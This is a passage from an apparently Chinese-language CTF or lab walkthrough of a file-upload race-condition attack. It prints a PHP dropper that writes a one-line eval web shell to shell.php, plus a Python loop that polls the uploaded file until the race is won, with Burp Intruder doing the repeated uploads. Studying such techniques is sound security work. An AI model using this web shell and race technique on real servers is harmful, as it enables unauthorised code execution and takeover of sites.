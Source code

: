 当python脚本访问这个文件的时候它会新建一个`shell.php`

```
<?php
fputs(fopen('shell.php','w'),'<?php @eval($_POST["ljj"]) ?>');
?>
```

然后我们写一个python脚本，通过它来不停的访问我们上传上去的PHP文件。

```python
import requests
url = "http://upload.com:9099/upload/competition.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

在BP攻击的`同时`我们也要运行python脚本，这个python脚本目的就是不停地访问`competition.php`知道成功访问到为止。当出现`OK`说明访问到了该文件，那么`shell.php`应该也创建成功了。

用BP抓包，右键选择send to intruder

![image-20221214210516418](assets/image-20221214210516418.png)
